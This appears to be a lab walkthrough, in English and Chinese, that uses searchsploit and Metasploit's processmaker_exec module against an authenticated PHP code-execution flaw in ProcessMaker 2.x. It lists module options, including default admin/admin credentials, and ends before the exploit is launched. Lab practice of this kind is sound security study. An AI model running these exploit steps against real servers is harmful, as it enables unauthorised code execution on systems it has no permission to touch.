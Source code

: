 ```
root@attackdefense:~# searchsploit -m 29325
  Exploit: ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/29325
     Path: /usr/share/exploitdb/exploits/php/remote/29325.rb
File Type: Ruby script, ASCII text, with CRLF line terminators

Copied to: /root/29325.rb
```

This module exploits a PHP code execution vulnerability in the 'neoclassic' skin for ProcessMaker Open Source which allows any authenticated user to execute PHP code. The vulnerable skin is installed by default in version 2.x and cannot be removed via the web interface.

该模块利用 ProcessMaker Open Source 的“新古典主义”皮肤中的 PHP 代码执行漏洞，允许任何经过身份验证的用户执行 PHP 代码。 易受攻击的皮肤默认安装在 2.x 版本中，无法通过 Web 界面删除。

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > workspace -a processmaker
[*] Added workspace: processmaker
[*] Workspace: processmaker
msf5 > workspace
  default
* processmaker
```

```
msf5 > search processmaker

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/multi/http/processmaker_exec           2013-10-24       excellent  Yes    ProcessMaker Open Source Authenticated PHP Code Execution
   1  exploit/multi/http/processmaker_plugin_upload  2010-08-25       excellent  No     ProcessMaker Plugin Upload


msf5 > use exploit/multi/http/processmaker_exec
msf5 exploit(multi/http/processmaker_exec) > show options

Module options (exploit/multi/http/processmaker_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       The password for ProcessMaker
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME   admin            yes       The username for ProcessMaker
   VHOST                       no        HTTP server virtual host
   WORKSPACE  workflow         yes       The ProcessMaker workspace


Exploit target:

   Id  Name
   --  ----
   0   ProcessMaker Open Source 2.x (PHP Payload)
```